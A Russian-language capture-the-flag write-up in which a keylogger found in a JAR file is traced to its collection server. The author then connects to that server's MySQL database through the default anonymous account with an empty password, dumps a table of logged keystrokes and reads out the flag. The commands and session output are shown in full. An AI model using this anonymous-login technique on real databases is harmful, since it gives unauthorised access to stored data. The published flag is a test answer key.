

# Странный вирус: Write-up

В последнем таске нас просят продолжить исследование JAR-файла. Что ж, сразу идем обратно в 
декомпилятор. Судя по условию, флаг где-то записан хакерами.

Начнем исследование с IP-адреса и порта — `45.77.142.82:31337`. На этом порту висит HTTP-сервер,
куда на `/log` приходят данные о нажатых клавишах.

Но давайте просто зайдем на главную страницу из браузера.



Отлично, мы вышли на АНБ. Значит, самое время натравить сканер типа `nmap` или внимательно
вчитаться в содержимое страницы: используется MySQL.

Остается два варианта:
* либо речь об SQL-инъекции
* либо речь о прямом доступе в БД

Узнаем, что MySQL обычно находится на порту 3306 (или запускаем `nmap`, который сам об этом
скажет). А раз порт открыт, то значит, мы на верном пути. Но мы не знаем логин и пароль.
Воспользуемся интересной особенностью MySQL: по умолчанию в базе есть «анонимный» пользователь — 
при входе с произвольным (несуществующим) логином и пустым паролем мы попадем в этот режим.

```
# mysql -h 45.77.142.82 -u user
Welcome to the MySQL monitor.
<...>

mysql>
```

Ура, работает. Удивительно, но у нас даже есть какие-то права в базе. Быстро находим интересную
таблицу:

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| keyes              |
+--------------------+
2 rows in set (0.00 sec)

mysql> use keyes;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables\_in\_keyes |
+-----------------+
| keyes           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from keyes;
+----+---------------------------------------------+
| id | strokes                                     |
+----+---------------------------------------------+
| <...>                                            |
| 33 | b'gu :\xd1\x8f'                             |
| 34 | b'ym\_ar'                                   |
| 35 | b'1\_1qs'                                   |
| 36 | b'uc35n'                                    |
| 37 | b',y71r'                                    |
| <...>                                            |
+----+---------------------------------------------+
```

Аккуратно достаем флаг, ориентируясь на код кейлоггера.

Флаг: **ugra_mysq1_1n53cur17y**
